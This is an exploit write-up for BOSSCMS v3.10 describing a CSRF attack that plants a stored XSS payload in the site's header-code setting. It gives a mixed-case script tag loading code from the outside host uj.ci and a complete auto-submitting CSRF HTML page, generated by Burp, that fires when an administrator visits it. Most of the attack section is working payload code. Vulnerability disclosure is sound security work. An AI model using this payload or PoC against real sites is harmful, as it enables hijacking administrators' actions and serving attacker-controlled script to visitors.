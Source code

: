 # BOSSCMS has CSRF and storage-optimized XSS

**Exploit Title:** BOSSCMS has CSRF and storage-optimized XSS

**Date:** 2024-04-01

**Exploit Author:** shuo sheng,jixin zhang

**Vendor Homepage:** https://gitee.com/Greenpeas/BOSSCMS

**Software Link:** https://gitee.com/Greenpeas/BOSSCMS/archive/refs/tags/V3.1202310281625.zip

**Version:** Bosscms v3.10

bosscms xss详细可以见https://github.com/ss122-0ss/bosscms



csrf

In name="head_code" or name="foot_code", add payload, the payload here is

```
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

payload can be generated at https://xssaq.com/



![image-20240403102952903](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403102952903.png)

Put the HTML in a CSRF. In HTML, an administrator access to the http://127.0.0.1/csrf.html page, will automatically trigger modify code, triggering payload

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/bosscms1/admin/?mold=site&part=code&func=add" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="head&#95;code" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="hidden" name="foot&#95;code" value="test" />
      <input type="hidden" name="head&#95;mobile&#95;code" value="" />
      <input type="hidden" name="foot&#95;mobile&#95;code" value="" />
      <input type="hidden" name="csrftoken" value="sk92ef5fq7e14j0lcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20240403103230900](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403103230900.png)

